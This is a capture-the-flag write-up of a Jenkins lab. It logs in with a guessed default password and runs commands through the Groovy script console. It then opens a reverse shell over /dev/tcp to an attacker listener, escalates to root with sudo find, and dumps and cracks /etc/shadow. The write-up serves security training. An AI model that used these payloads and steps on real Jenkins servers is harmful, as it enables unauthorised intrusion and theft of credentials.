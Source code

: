 # Jenkins
Jenkins

## Challenge 

	BazaareBank - Jenkins by Donato Capitella
	In this challenge you will exploit a common misconfiguration to take over one of the most wide-spread software deployment systems

	In this challenge you will:

	Learn about Jenkins, a common automation server
	Guess weak credentials
	Use Groovy script to gain command execution
	Retrieve the root password

https://ctf.mwrinfosecurity.com/content/thebazaarebank-lab3/#/id/5a6a24ec57bc7b6242972762

## Task 1 Solution

#### Description

	To accomplish your tasks, visit the instance of Jenkins at this address: http://192.168.0.100:8080.

	Task 1
	Very often Jenkins comes configured without any authentication. However, this time it looks like they have implemented authentication. 

	Try to login as user admin by guessing the password (the flag is the password).

#### Solution

Guess it as admin:admin

> Flag 1: admin

---

## Task 2 Solution

#### Description

	Well done! Now that you are inside Jenkins, you can access the scripting console and leverage that to execute commands on the underlying OS. 

	Your next flag is under /var/lib/jenkins/flag.txt.

#### Solution

Read up about scripting console:

- https://wiki.jenkins.io/display/JENKINS/Jenkins+Script+Console

Run Groovy script to cat out the flag

	def cmd = "cat /var/lib/jenkins/flag.txt".execute();
	println("${cmd.text}");

Result

	Your flag is the word 'groovy'.

![ss1.png](ss1.png)

> Flag 2: groovy

---

## Task 3 Solution

#### Description

	Your final challenge is to get a shell on the box, elevate your privilege and crack the password for the root account.

	Your end goal is to crack the password of the root account.

	Hint: to elevate your privilege, look at the commands that the Jenkins user can execute as a sudo user (sudo -l). They look harmless, but harmless are they not.

#### Solution (Part 1)

Reference:

- https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/

Listen on our PC using netcat

	$ nc -lvp 1337

Run Groovy script for reverse shell (change connection to our IP address `192.168.0.3` and port `1337`)

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.3/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

And we receive connection


	$ nc -lvp 1337
	Listening on [0.0.0.0] (family 0, port 1337)
	Connection from 192.168.0.100 45504 received!

#### Solution (Part 2)

Reference:

- https://www.securitynewspaper.com/2018/04/25/proper-use-sudo-linux-privilege-escalation/

Now spawn bash to do root escalation 

	/bin/bash
	python -c 'import pty;pty.spawn("/bin/bash")'
	jenkins@vagrant-ubuntu-trusty-64:/$ 

Do `sudo -l` to see the commands

	jenkins@vagrant-ubuntu-trusty-64:/$ sudo -l
	sudo -l
	Matching Defaults entries for jenkins on vagrant-ubuntu-trusty-64:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User jenkins may run the following commands on vagrant-ubuntu-trusty-64:
	    (root) NOPASSWD: /usr/bin/find
	    (root) NOPASSWD: /usr/bin/vim

We notice that `find` is vulnerable

	jenkins@vagrant-ubuntu-trusty-64:/$ sudo find /etc/passwd -exec /bin/sh \;
	sudo find /etc/passwd -exec /bin/sh \;
	# ls
		ls
		bin   etc	  lib	      media  proc  sbin  tmp	  var
		boot  home	  lib64       mnt    root  srv	 usr	  vmlinuz
		dev   initrd.img  lost+found  opt    run   sys	 vagrant
	# whoami
		whoami
		root

Extract passwd & shadow

	# cat /etc/passwd
	# cat /etc/shadow

Crack using John the Ripper.

	$ brew install john-jumbo
	$ /usr/local/Cellar/john-jumbo/1.8.0/share/john/unshadow ./passwd ./shadow > ./db.db
	$ john ./db.db 

	Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
	Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
	Warning: hash encoding string length 98, type id $6
	appears to be unsupported on this system; will not load such hashes.
	Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 64/64 OpenSSL])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	vagrant          (vagrant)
	qwerty           (root)
	2g 0:00:00:01 DONE 2/3 (2019-03-23 16:45) 1.587g/s 663.4p/s 664.2c/s 664.2C/s qwerty
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed

> Flag 3: qwerty
